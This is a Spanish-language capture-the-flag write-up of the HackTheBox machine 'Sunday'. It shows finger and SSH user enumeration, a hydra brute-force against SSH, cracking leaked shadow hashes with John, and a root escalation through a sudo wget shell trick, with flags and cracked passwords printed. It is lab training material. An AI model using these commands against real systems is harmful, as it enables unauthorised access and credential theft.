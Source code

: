 ```yaml
---
title: HackTheBox - Sunday
published: true
---
```


---
## Intrusion

Escaneo con Nmap para descubrir puertos abiertos en la máquina.

```bash
❯ nmap -p- --open 10.10.10.76
Nmap scan report for 10.10.10.76
Host is up (0.17s latency).
PORT      STATE SERVICE
79/tcp    open  finger
111/tcp   open  rpcbind
515/tcp   open  printer
6787/tcp  open  smc-admin
22022/tcp open  unknown
```

* 79/tcp open finger?
* 11/tcp open rpcbind 2-4 (RPC #100000)
* 515/tcp open printer
* 6787/tcp open ssl/http Apache httpd 2.4.33 ((Unix) OpenSSL/1.0.2o mod_wsgi/4.5.1 Python/2.7.14)
* 22022/tcp open ssh OpenSSH 7.5 (protocol 2.0)


### Enumerando Finger

Finger es un servicio de red utilizado en sistemas operativos Unix y Linux para obtener información acerca de los usuarios del sistema. Este servicio permite a los usuarios de un sistema Unix o Linux obtener información básica sobre otros usuarios, como su nombre, dirección de correo electrónico, última hora de inicio de sesión y el terminal utilizado para conectarse al sistema.

Empezamos listando posibles usuarios.

```bash
❯ finger @10.10.10.76
No one logged on
```

Pero no muestra nada.

Con netcat tratamos de conectarnos y podemos verificar si existen usuarios.

```bash
❯ nc -vn 10.10.10.76 79
(UNKNOWN) [10.10.10.76] 79 (finger) open
root
Login       Name               TTY         Idle    When    Where
root     Super-User            console      <Oct 14, 2022>
```

Para hacer esto mejor, existe una herramienta que podemos usar para enumerar mas usuarios. 

[Finger-user-enum](https://pentestmonkey.net/tools/user-enumeration/finger-user-enum)

Con esta herramienta podemos pasarle un nombre o una lista de usuarios y esperar para ver cuales existen y la información. 

```bash
❯ ./finger-user-enum.pl -u root -t 10.10.10.76
Starting finger-user-enum v1.0 ( http://pentestmonkey.net/tools/finger-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Worker Processes ......... 5
Target count ............. 1
Username count ........... 1
Target TCP port .......... 79
Query timeout ............ 5 secs
Relay Server ............. Not used

######## Scan started #########
root@10.10.10.76: root     Super-User            console      <Oct 14, 2022>..
######## Scan completed #########
1 results.

1 queries in 1 seconds (1.0 queries / sec)
```

```bash
❯ ./finger-user-enum.pl -U names.txt -t 10.10.10.76
Starting finger-user-enum v1.0 ( http://pentestmonkey.net/tools/finger-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Worker Processes ......... 5
Usernames file ........... names.txt
Target count ............. 1
Username count ........... 10177
Target TCP port .......... 79
Query timeout ............ 5 secs
Relay Server ............. Not used

######## Scan started #########
access@10.10.10.76: access No Access User                     < .  .  .  . >..nobody4  SunOS 4.x NFS Anonym               < .  .  .  . >..
admin@10.10.10.76: Login       Name               TTY         Idle    When    Where..adm      Admin                              < .  .  .  . >..dladm    Datalink Admin                     < .  .  .  . >..netadm   Network Admin                      < .  .  .  . >..netcfg   Network Configuratio               < .  .  .  . >..dhcpserv DHCP Configuration A               < .  .  .  . >..ikeuser  IKE Admin                          < .  .  .  . >..lp       Line Printer Admin                 < .  .  .  . >..
anne marie@10.10.10.76: Login       Name               TTY         Idle    When    Where..anne                  ???..marie                 ???..
bin@10.10.10.76: bin             ???                         < .  .  .  . >..
dee dee@10.10.10.76: Login       Name               TTY         Idle    When    Where..dee                   ???..dee                   ???..
ike@10.10.10.76: ikeuser  IKE Admin                          < .  .  .  . >..
jo ann@10.10.10.76: Login       Name               TTY         Idle    When    Where..ann                   ???..jo                    ???..
la verne@10.10.10.76: Login       Name               TTY         Idle    When    Where..la                    ???..verne                 ???..
line@10.10.10.76: Login       Name               TTY         Idle    When    Where..lp       Line Printer Admin                 < .  .  .  . >..
message@10.10.10.76: Login       Name               TTY         Idle    When    Where..smmsp    SendMail Message Sub               < .  .  .  . >..
miof mela@10.10.10.76: Login       Name               TTY         Idle    When    Where..mela                  ???..miof                  ???..
root@10.10.10.76: root     Super-User            console      <Oct 14, 2022>..
sammy@10.10.10.76: sammy           ???            ssh          <Apr 13, 2022> 10.10.14.13         ..
sunny@10.10.10.76: sunny           ???            ssh          <Apr 13, 2022> 10.10.14.13         ..
sys@10.10.10.76: sys             ???                         < .  .  .  . >..
zsa zsa@10.10.10.76: Login       Name               TTY         Idle    When    Where..zsa                   ???..zsa                   ???..
######## Scan completed #########
16 results.

10177 queries in 775 seconds (13.1 queries / sec)
```

Con este escaneo vemos mas usuarios y su información. 

### SSH

El puerto del servicio Secure Shell esta configurado en el puerto 22022 y la versión es vulnerable a ‘user enumeration’.

> 22022/tcp open ssh OpenSSH 7.5 (protocol 2.0)

Con la información del escaneo anterior vemos 2 usuarios conectados por SSH, sammy y sunny. Podríamos tratar de ver si son validos. 

```bash
❯ python3 ssh_enum.py 10.10.10.76 -p 22022 sammy
[+] sammy is a valid username
❯ python3 ssh_enum.py 10.10.10.76 -p 22022 sunny
[+] sunny is a valid username
```

Y los dos usuarios son validos, con lo que intentaría un ataque de fuerza bruta con hydra.

```bash
❯ hydra -L users_ssh.txt -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.76 -s 22022 -u -f
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes

[DATA] attacking ssh://10.10.10.76:22022/
[22022][ssh] host: 10.10.10.76   login: sunny   password: sunday
[STATUS] attack finished for 10.10.10.76 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

Obtenemos la contraseña del usuario sunny y iniciamos sesión por SSH.

```bash
❯ ssh sunny@10.10.10.76 -p 22022
Password: 
Last login: Wed Apr 13 15:35:50 2022 from 10.10.14.13
Oracle Corporation      SunOS 5.11      11.4    Aug 2018
sunny@sunday:~$
```

En el directorio de sammy podemos ver la primera flag.

```bash
sunny@sunday:/home/sammy$ ls
user.txt
sunny@sunday:/home/sammy$ cat user.txt 
366740e21662974c853bd8ea933391d1
sunny@sunday:/home/sammy$
```

## Elevando Privilegios

En la raíz del sistema hay una carpeta llamada ‘backup’, nos metemos y hay 2 archivos de texto que contienen parte del archivo shadow del sistema.

```bash
sunny@sunday:/backup$ ls
agent22.backup  shadow.backup
sunny@sunday:/backup$ cat *
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
sunny@sunday:/backup$
```

Con John intentaría obtener la contraseña del usuario Sammy 

```bash
❯ john hash.txt --w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha256crypt, crypt(3) $5$ [SHA256 256/256 AVX2 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
cooldude!        (sammy)
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Una vez siendo Sammy si listamos perimisos sudo vemos que podemos ejecutar wget como root.

```bash
sammy@sunday:/home/sammy$ sudo -l
User sammy may run the following commands on sunday:
    (ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

Buscamos el binario en Gtfobins y nos da los siguientes comandos para convertirnos en root.

```bash
TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
sudo wget --use-askpass=$TF 0
```

Ejecutamos y somos root y ya podemos leer la flag.

```bash
sammy@sunday:/home/sammy$ whoami
sammy
sammy@sunday:/home/sammy$ TF=$(mktemp)
sammy@sunday:/home/sammy$ chmod +x $TF
sammy@sunday:/home/sammy$ echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
sammy@sunday:/home/sammy$ sudo wget --use-askpass=$TF 0
root@sunday:/home/sammy# whoami
root
root@sunday:/home/sammy# cat /root/root.txt                                                                                                                      
0a9706f6ad348fcf77d778956dcd49e5
root@sunday:/home/sammy#
```
